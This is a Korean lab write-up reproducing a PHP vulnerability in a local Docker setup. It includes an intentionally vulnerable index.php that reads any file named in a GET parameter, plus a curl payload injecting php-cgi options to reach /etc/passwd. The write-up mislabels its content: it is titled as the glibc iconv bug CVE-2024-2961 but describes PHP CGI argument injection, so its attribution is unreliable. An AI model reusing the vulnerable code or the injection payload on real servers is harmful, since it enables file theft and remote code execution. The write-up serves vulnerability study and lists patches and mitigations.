

# PHP File Read to Remote Code Execution Through GNU C Library Iconv (CVE-2024-2961)

# 요약

---

# 1. 취약점 소개

- **CVE 번호:** CVE-2024-2961
- **취약점 이름:** PHP CGI Argument Injection
- **발견 시기:** 2024년 3월
- **영향 받는 버전:** PHP 5 ~ PHP 8.3.5 (특히 PHP 8.3.3, PHP 8.3.4)
- **공식 패치 버전:** PHP 8.3.6, PHP 8.2.18, PHP 8.1.28

---

### 1.1 취약점 상세 설명

PHP가 **CGI 모드**로 동작할 때, HTTP 요청에 특정 방식으로 파라미터를 삽입하면
**php-cgi 프로세스에 명령줄 옵션(arguments)** 을 주입할 수 있다.

공격자는 이 취약점을 통해:

- PHP 설정(allow_url_include, auto_prepend_file 등)을 강제로 조작하거나,
- 서버에 존재하는 파일을 읽거나,
- 원격에서 임의 코드를 실행(RCE)할 수 있다.

---

### 1.2 취약점 발생 원인

- php-cgi가 GET/POST 요청 파라미터를 처리할 때,
- 명령줄 인자처럼 해석하는 구조적 설계 결함이 존재했다.
- 이로 인해 `d`, `n`, `c` 등의 옵션을 외부에서 주입할 수 있었다.

---

# 2. 환경 구축 및 실행 방법

본 취약점 검증을 위해 Docker 기반의 로컬 환경을 구성하였다.

---

도커 환경에서 PHP 8.3.4 서버를 실행하기 위해 다음 명령어를 사용하였다.

```
docker compose up -d

```

서버가 시작된 후 브라우저에서 다음 URL을 통해 `/etc/passwd` 파일을 읽을 수 있다.

```html
http://your-ip:8080/index.php?file=/etc/passwd.
```

### **index.php**

```php
<?php
echo "File contents: ";
echo file_get_contents($_GET['file']);
?>
```

- 사용자의 GET 파라미터 `file`에 따라 서버 파일을 읽어 출력한다.
- "File contents:" 문구를 추가하여 PoC용 스크립트 통신 포맷에 맞추었다.

# 3. 익스플로잇

Linux 기반 시스템에서 Python 3.10 이상과 필요한 패키지를 설치한다.

---

**사전 준비**

```bash
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
```

그런 다음 POC를 실행한다.

```bash
curl "http://127.0.0.1:8080/index.php?-d+allow_url_include=on+-d+auto_prepend_file=php://input&file=/etc/passwd"
```

요청을 통해 `/etc/passwd` 파일의 내용을 출력하는 데 성공하였다.



### 대응방안

- PHP를 최신 버전(8.3.6 이상)으로 업데이트
- CGI 모드 사용 지양
- 웹 서버, WAF 설정을 통해 위험한 파라미터 차단

# 정리

---

원본 https://github.com/lemi9090/vulhub/tree/master/php/CVE-2024-2961 에선 

shell.php 파일을 생성하여 phpinfo() 함수를 실행하는 과정까지 구현하였다.

하지만 본 과제 환경에서는 **php://filter**, **data:// wrapper** 기능이 제한되어 있어

shell.php 파일 생성 및 추가 실행은 실패하였다.

따라서, index.php를 수정하여 `/etc/passwd` 파일을 직접 읽는 방식으로

PoC를 재구성하고 성공적으로 취약점을 입증하였다.
